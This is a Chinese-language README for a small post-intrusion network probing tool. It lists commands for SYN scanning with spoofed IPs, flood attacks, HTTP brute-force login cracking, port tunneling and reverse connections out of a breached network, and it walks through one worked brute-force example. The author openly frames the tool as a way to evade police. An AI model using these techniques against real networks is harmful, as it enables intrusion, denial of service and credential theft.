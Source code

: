 
scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..

***

###LCatro

***

###启动方式
scanner.exe 控制台启动<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]<br/>

###使用方法
扫描当前网段存活的主机,并且自动搜集数据<br/>
using:arp<br/>
获取当前主机的网络信息<br/>
using:local<br/>
测试主机是否连通<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪<br/>
using:tracert %ip/host%<br/>
抓取页面<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助<br/>
using:help<br/>
退出<br/>
using:quit<br/>

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	###什么是表达式?
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动];最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Sucess
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成

###端口转发 route
	using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
	

##Other
===
####reverse_server 是用来做反向连接用的服务端
####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..

